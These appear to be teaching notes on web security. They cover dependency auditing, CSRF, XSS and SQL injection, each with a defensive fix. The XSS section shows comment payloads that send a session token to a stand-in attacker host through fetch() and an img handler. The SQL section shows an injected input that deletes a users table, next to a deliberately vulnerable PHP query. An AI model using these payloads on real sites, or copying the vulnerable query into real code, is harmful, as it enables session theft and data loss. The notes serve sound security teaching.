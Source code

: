 

# How to make dependency security better

If you're really serious, the only solution is to internalize
all your dependencies.

 - You make local copies of all dependencies (e.g. git fork)
 - You depend on your own version. Maybe this means setting up
   your own NPM package repository.
 - Manually audit every single package.
   - Read and understand every single line of code.
   - Remove functionality that may be risky.
 - Never type a simple "npm update" or "npm install" again.
 - Watch all the upstream projects for security issues / bugfixes
   and backport them manually.

# Specific Attacks

## Cross Site Request Forgery (XSRF)

```
<!-- https://nukes.fr/ -->
<h1>Launch Nuclear Missiles</h1>
<form action="/launch" method="post">
    <select>
       <option>London</option>
       <option>Moscow</option>
       <option>Ottowa</option>
    </select>
    <input type="Submit">
</form>
```

```
<!-- https://haxxor.fi -->
<h1>Find Cute Pictures</h1>
<form action="http://nukes.fr/launch" method="post">
    <select>
     <option value="Ottowa">Puppies</option>
     <option value="Ottowa">Kittens</option>
    </select>
    <input type="Submit" value="Search!">
</form>
```


```
<!-- https://nukes.fr/ -->
<h1>Launch Nuclear Missiles</h1>
<form action="/launch" method="post">
    <input type="hidden" name="_xsrf_token" value="security token">
    <select>
       <option>London</option>
       <option>Moscow</option>
       <option>Ottowa</option>
    </select>
    <input type="Submit">
</form>
```

## Cross-Site Scripting: (XSS)

We're building a site with comments. Maybe it's an online store.

 * A user enters a comment (e.g. on a product)
 * Other users see the comment when they view our site.

What if a user enters this comment:

```
<script>
    fetch('https://haxxor.fi/save?token=' + window.session_token).then(...);
</script>

Great product. A++++++
```

Ban script tags (escape the <).

```
<img src='' onMouseOver(ev.target.src = 'https://haxxor.fi/save?token=' + window.session_token">
Great product. A++++++
```

Solution:

 - Don't allow HTML at all.
 - If we must allow HTML, we need a complete HTML sanitizer (actually parse
   the HTML and whitelist tags and attributes).

This isn't just user comments.

Problem #2 Web Ads: Most ads today XSS you all day long.

## In-browser JS security

 - In browser JavaScript code isn't 100% trusted.
 - Both we and the end user can control it.
 - It still has security properties:
   - We expose secrets to the JS code that the user is allowed to know. 
   - Nobody else should get those secrets. 
 
## SQL Injection 

```
<?php
    $query = "select * from users where name = \"" + $_POST['name'] + "\";";
    $user = $mysql->query($query);
```

The classic problem: The user enters the following name into the form:

```
  "; delete * from users; select "hello
```

This isn't how modern database queries usually work.

```
  $mysql->fixed_query("select * from users where name = ?", [$name]);
```

More modern database libraries tend to use higher level APIs, e.g. Ecto.





